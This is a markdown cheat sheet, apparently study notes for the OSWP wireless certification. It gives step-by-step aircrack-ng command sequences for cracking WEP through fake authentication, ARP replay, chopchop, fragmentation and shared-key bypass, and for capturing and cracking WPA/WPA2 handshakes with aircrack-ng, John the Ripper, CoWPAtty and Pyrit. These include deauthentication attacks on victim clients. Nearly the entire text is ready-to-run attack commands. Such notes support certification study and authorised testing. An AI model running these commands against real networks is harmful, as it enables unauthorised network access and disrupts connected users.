 # OSWP
Offensive Security Wireless Professional

## WEP (Wired Equivalent Privacy)

### Open Authentication

#### Cracking WEP with connected clients

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC wlan0mon> wlan0mon (Fake authentication)
aireplay-ng -3 -b <BSSID> -h <MAC wlan0mon> wlan0mon (ARP replay attack)
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon (Deauthentication attack)
aircrack-ng <.CAP FILENAME>
```

#### Cracking WEP via a connected client

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon (Fake authentication)
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon (Interactive Packet Replay Attack)
aircrack-ng -z <.CAP FILENAME>
```

#### Cracking clientless WEP network

##### KoreK chopchop attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -4 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

##### Fragmentation attack

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 6000 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -5 -b <BSSID> -h <MAC INTERFACE> wlan0mon
packetforge-ng -0 -a <BSSID> -h <MAC INTERFACE> -l <SOURCE IP> -k <DEST IP> -y <XOR FILENAME> -w <FILENAME>
aireplay-ng -2 -r <PACKET FILENAME> wlan0mon
aircrack-ng <.CAP FILENAME>
```

### Shared Key Authentication

#### Bypassing WEP Shared Key Authentication

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aireplay-ng -1 0 -e <ESSID> -y <.XOR FILENAME> -a <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -3 -b <BSSID> -h <MAC INTERFACE> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
aircrack-ng <.CAP FILENAME>
```

---

## WPA/WPA2 (Wi-Fi Protected Access)

### Pre-Shared Key Authentication

#### Cracking WPA with Aircrack-ng

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> --bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
```

##### Dictionary mode

```
aircrack-ng -w <WORDLIST> <.CAP FILENAME>
```

##### Database mode

```
aircrack-ng -r <DB NAME> <.CAP FILENAME>
```

#### Cracking WPA with John the Ripper (JTR)

```
./john --wordlist=<WORDLIST> --rules --stdout | aircrack-ng -e <ESSID> -w - <.CAP FILENAME>
```

#### Cracking WPA with CoWPAtty

```
cowpatty -r <.CAP FILENAME> -f <WORDLIST> -2 -s <ESSID>
```

#### Cracking WPA with Pyrit

```
airmon-ng start <INTERFACE> <CHANNEL>
pyrit -r <INTERFACE> -o <FILENAME> stripLive
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon
```

##### Dictionary mode

```
pyrit -r <.CAP FILENAME> -i <WORDLIST> -b <BSSID> attack_passthrough
```

##### Database mode

```
pyrit -i <WORDLIST> import_passwords
pyrit -e <ESSID> create_essid
pyrit batch
pyrit -r <.CAP FILENAME> -b <BSSID> attack_db
```

---

## References

https://blog.fabiopires.pt/cracking-wifi-my-personal-notes-part-1-of-3-wep/

